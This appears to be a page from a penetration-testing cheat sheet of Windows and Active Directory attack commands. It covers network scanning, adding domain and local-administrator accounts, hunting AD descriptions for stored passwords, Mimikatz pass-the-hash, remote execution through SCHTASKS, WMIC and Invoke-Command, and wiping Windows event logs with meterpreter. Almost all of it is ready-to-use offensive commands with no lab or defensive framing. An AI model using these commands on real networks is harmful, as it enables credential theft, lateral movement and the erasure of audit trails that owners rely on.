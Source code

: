 ```nmap -sS -O -p1-65535 --script banner 192.168.1.1/24```

Add local user account

```net localgroup administrators <user> /add```

Add local user to local administrator group

```net user username password /add /domain```

Add new user account to domain

```wmic useraccount```

List all local accounts with SID

```Get-AdUser -Filter * -Properties SamAccountName, description | select SamAccountName, description | select -expand $_.results```

Get descriptions from AD to look for passwords stored in AD account. Can be done from any domain user

## Lateral Movement

```dir \\host\c$```

Check to see if your admin on another computer by listing the c$ share

```runas /user:Domain\(user) something.exe```

Create a token with creds from command line

```runas /user:Domain\(user) /netonly something.exe```

Create a token to pass creds

```sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:COMMAND```

Pass the hash with Mimikatz

```SCHTASKS /Run /S system /U user /P password /I /TN "taskname"```

Run task immediately on remote system

```wmic /node:(host) process call create <path to exe>```

Run exe on remote computer with WMIC

```Powershell Invoke-Command -ComputerName (host) -ScriptBlock { dir c:\ }```

WinRM(port 5985) turned off by default(turned on for administration) Run command with Windows remoting

## Cleaning up

```meterpreter> clearev```

Will clear the Application, System and Security logs on a Window systems. There are no options or arguments

## Misc

```rundll32.exe dllname.dll,StartW```

Run DLL

```dir /S /B```

```